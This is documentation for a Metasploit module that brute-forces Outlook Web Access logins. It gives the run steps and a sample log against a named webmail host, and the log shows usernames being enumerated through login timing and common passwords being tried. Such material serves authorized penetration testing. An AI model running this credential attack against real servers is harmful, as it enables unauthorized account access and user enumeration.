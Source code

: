 This module tests credentials on OWA 2003, 2007, 2010, 2013, and 2016 servers.

NOTE: This module assumes that login attempts that take a long time (>1 sec) to
return are using a valid domain username. This methodology does not work when
passing a full email address (user@domain.com). Full email addresses will not
be saved as potentially valid usernames unless we get a successful login.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/owa_login```
2. Do: ```set RHOSTS [IP]```
3. Configure a user and password list by setting either `USERNAME`, `PASSWORD`, `USER_FILE`, or `PASS_FILE`.
4. Do: ```run```

## Scenarios

```
msf5 auxiliary(scanner/http/owa_login) > run

[*] webmail.hostingcloudapp.com:443 OWA - Testing version OWA_2013
[+] Found target domain: HOSTINGCLOUDAPP
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.267791 'HOSTINGCLOUDAPP\administrator' : 'password': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.273841 'HOSTINGCLOUDAPP\administrator' : 'password1': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying administrator : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.22
[+] server type: EXCH2016MBX01
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.270796 'HOSTINGCLOUDAPP\administrator' : 'fido': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.22
[+] server type: EXCH2016MBX01
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.046935 'HOSTINGCLOUDAPP\johndoe' : 'password' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.073391 'HOSTINGCLOUDAPP\johndoe' : 'password1' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying johndoe : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[-] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN. 2.038717 'HOSTINGCLOUDAPP\johndoe' : 'fido' (HTTP redirect with reason 2)
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : password
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.289186 'HOSTINGCLOUDAPP\bob' : 'password': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : password1
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.270616 'HOSTINGCLOUDAPP\bob' : 'password1': SAVING TO CREDS
[*] webmail.hostingcloudapp.com:443 OWA - Trying bob : fido
[*] webmail.hostingcloudapp.com:443 OWA - Resolved hostname 'webmail.hostingcloudapp.com' to address 38.126.136.24
[+] server type: EXCH2016MBX02
[*] webmail.hostingcloudapp.com:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.275251 'HOSTINGCLOUDAPP\bob' : 'fido': SAVING TO CREDS
[*] Auxiliary module execution completed

```
